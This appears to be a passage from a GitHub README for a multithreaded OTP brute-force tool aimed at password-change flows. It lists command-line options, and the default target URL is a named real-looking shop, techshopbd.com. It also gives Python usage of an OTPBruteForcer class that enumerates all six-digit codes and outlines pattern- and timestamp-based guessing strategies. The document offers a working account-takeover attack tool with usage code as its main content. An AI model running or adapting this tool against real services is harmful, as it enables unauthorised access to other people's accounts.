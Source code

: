 ### Command Line Options

- `email`: Target email address (required)
- `--url`: Base URL of target system (default: https://techshopbd.com)
- `--start`: Starting OTP number (default: 0)
- `--end`: Ending OTP number (default: 999999)
- `--delay`: Delay between requests in seconds PER THREAD (default: 0.1)
- `--threads`: Number of concurrent threads (default: 10, max recommended: 50)
- `--smart`: Use smart brute force with common patterns first
- `--common-only`: Test only common OTP patterns
- `--multithreaded`: Force multithreaded mode (default for regular brute force)
- `--no-threading`: Disable multithreading (use single-threaded mode)

### Programmatic Usage

```python
from brute_force_password_change import OTPBruteForcer

# Initialize with 15 threads for high performance
brute_forcer = OTPBruteForcer("https://example.com", "test@example.com", max_threads=15)
brute_forcer.setup_session()

# Test single OTP
success, status, message = brute_forcer.test_otp("123456")

# Multithreaded smart brute force (FASTEST)
result = brute_forcer.smart_brute_force(delay=0.05, use_multithreading=True)

# High-speed multithreaded brute force
result = brute_forcer.multithreaded_brute_force(
    start_range=0, 
    end_range=999999, 
    delay=0.01,
    max_threads=20
)

# Single-threaded (slower, for comparison)
result = brute_forcer.brute_force(start_range=0, end_range=999, delay=0.1)
```

## 🎯 Attack Strategies

### 1. Common Patterns (Single-threaded for speed)
Tests predictable OTP codes first:
- Sequential: 000000, 111111, 222222, etc.
- Patterns: 123456, 654321, 012345
- Date-based: Current date in various formats

### 2. Timestamp-based (Single-threaded)
Tests OTP codes based on current time:
- HHMMSS format
- MMSS00 format
- Recent timestamps (last hour)
